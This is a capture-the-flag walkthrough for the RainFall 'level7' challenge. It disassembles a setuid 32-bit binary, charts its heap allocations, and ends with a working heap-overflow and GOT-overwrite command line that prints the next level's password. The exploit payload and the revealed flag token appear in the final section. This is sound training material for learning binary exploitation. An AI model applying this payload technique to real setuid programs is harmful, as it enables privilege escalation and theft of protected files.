

# Level7

## Walkthrough

We list the files in the current home directory.

```bash
level7@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
level7@RainFall:~$ file level7
level7: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaee40d38d396a2ba3356a99de2d8afc4874319e2, not stripped
```

The file is owned by **level8** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```

There are 2 user-defined functions: `main()` and `m()` :

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   ebp
   0x08048522 <+1>:     mov    ebp,esp
   0x08048524 <+3>:     and    esp,0xfffffff0
   0x08048527 <+6>:     sub    esp,0x20
   0x0804852a <+9>:     mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:    mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:    mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:    mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    edx,eax
   0x08048552 <+49>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>:    mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>:    mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>:    mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>:    mov    DWORD PTR [eax],0x2
   0x08048573 <+82>:    mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    edx,eax
   0x08048581 <+96>:    mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:   mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:   mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:   add    eax,0x4
   0x0804858e <+109>:   mov    eax,DWORD PTR [eax]
   0x08048590 <+111>:   mov    edx,eax
   0x08048592 <+113>:   mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:   mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:   mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:   mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:   add    eax,0x8
   0x080485ab <+138>:   mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:   mov    edx,eax
   0x080485af <+142>:   mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:   mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:   mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:   mov    DWORD PTR [esp],eax
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    edx,0x80486e9
   0x080485c7 <+166>:   mov    eax,0x80486eb
   0x080485cc <+171>:   mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:   mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:   mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:   mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    eax,0x0
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
End of assembler dump.
```

The `main()` function: 
- calls `malloc()` to allocate `0x8` bytes 4 times to and stores:
  - the first pointer to `[esp + 0x1c]`
  - the second pointer to `[esp + 0x1c] + 0x4`
  - the third pointer to `[esp + 0x18]`
  - the fourth pointer to `[esp + 0x18] + 0x4`
- calls `strcpy()` to copy `argv[1]` into `[esp + 0x1c] + 0x4`
- calls `strcpy()` to copy `argv[2]` into `[esp + 0x18] + 0x4`
- calls `fopen()` to open `/home/user/level8/.pass`
- calls `fgets()` to read 44 bytes of the previously opened file into `0x8049960`
- calls `puts()` to print `~~` on stdout

```
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     sub    esp,0x18
   0x080484fa <+6>:     mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    edx,0x80486e0
   0x0804850b <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:    mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:    mov    DWORD PTR [esp],edx
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

The `m()` function calls `printf()` with the `"%s - %d\n"` format string, passing the content of the address `0x8049960` to the `%s` specifier.

We use the `ltrace` command in order to track down the addresses of the allocated memory zones from `malloc()`.

```bash
level7@RainFall:~$ ltrace ./level7 
__libc_start_main(0x8048521, 1, 0xbffff714, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                                                          = 0x0804a008
malloc(8)                                                                                                                                          = 0x0804a018
malloc(8)                                                                                                                                          = 0x0804a028
malloc(8)                                                                                                                                          = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

The returned addresses are `0x804a008`, `0x804a018`, `0x804a028`, and `0x804a038`.

We draw a diagram of the heap.



We confirm the inserted values by displaying a hexdump from the `0x804a008` address, before the calls to `strcpy()`.

```
(gdb) b *0x08048588
Breakpoint 5 at 0x8048588
(gdb) r AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 5, 0x08048588 in main ()
(gdb) x/16wx 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x00000000      0x00000000      0x00000000      0x00020fc1
```

If we pay attention to the `strcpy()` calls, we notice that the `dest` arguments are respectively `[esp + 0x1c] + 0x4` (`0x0804a00c`) and `[esp + 0x18] + 0x4` (`0x0804a02c`).  
This is good news for us because it means we can overwrite the second address stored on the heap using a **buffer overflow** thanks to the first `strcpy()`. But we also have to replace the call to `puts()` with `m()` using a **GOT overwrite** exploit.

```
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

The address of `puts()` in the GOT is `0x8049928`.

We calculate the difference between `0x804a02c`, the address which contains the value we wanna overwrite, and `0x0804a018`, the `dest` of the first `strcpy()` = `0x14` (20).  
The goal is to insert a payload of 20 bytes, followed by the address of `puts()` in the GOT, as `argv[1]`, and the address of `m()` as `argv[2]`.

```bash
level7@RainFall:~$ ./level7 $(python -c "print('A' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08\x00')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1741352227
```

## Resources

- [Binary Exploitation: Heap Overflow to Overwrite GOT](https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1)
